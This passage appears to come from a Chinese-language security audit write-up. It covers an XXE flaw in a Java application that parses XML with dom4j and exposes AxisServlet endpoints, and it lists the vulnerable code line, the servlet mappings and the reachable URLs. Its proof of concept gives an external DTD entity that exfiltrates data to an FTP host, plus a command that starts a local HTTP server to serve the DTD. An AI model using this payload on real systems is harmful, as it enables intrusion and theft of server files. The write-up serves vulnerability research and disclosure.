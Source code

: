```java
Line 244:    Document doc = DocumentHelper.parseText(xmlStr);

```

其中，`\xxx\***\XMLMessageUtil.java` 

![12312]({{site.baseurl}}/assets/images/审计/12312.png)

代码中 使用org.dom4j.DocumentHelper.parseTest解析XML文件

第二处，发现位置是在查看web.xml文件中AxisServlet的servlet-mapping配置，发现URL地址包含以下路径或后缀就可被攻击利用 

```xml
***\WebRoot\WEB-INF\web.xml 
xxx\***\WebRoot\WEB-INF\web.xml
```

```xml
<servlet-mapping>
<servlet-name>AxisServlet</servlet-name>
       <url-pattern>/servlet/AxisServlet</url-pattern>
   </servlet-mapping>  
   <servlet-mapping>
       <servlet-name>AxisServlet</servlet-name>
       <url-pattern>*.jws</url-pattern>
   </servlet-mapping>
   <servlet-mapping>
       <servlet-name>AxisServlet</servlet-name>
       <url-pattern>/services/*</url-pattern>
   </servlet-mapping> 

```

在通过访问以下URL即可访问到AxisServlet服务，可对其进行XXE漏洞攻击。 

`https://ip/xxx/servlet/AxisServlet` 

`https://ip/***/servlet/AxisServlet` 

POC:

0x1:

在复现时由于目标主机无法访问外网，所以需要在本地主机上搭建测试环境，具体的复现过程如下（嗯额这里感谢一下同事）：

1）新建目录xxe_test，复制下面文件放入  

test.dtd

```
<!ENTITY % param3 "<!ENTITY &#x25; exfil SYSTEM 'ftp://ip/%data3;'>">

```

![20190114222834]({{site.baseurl}}/assets/images/审计/20190114222834.png)

2)在xxe_test目录下运行如下命令，监听8080端口（检查防火墙是否开放该端口）

Python -m SimpleHTTPServer 8080

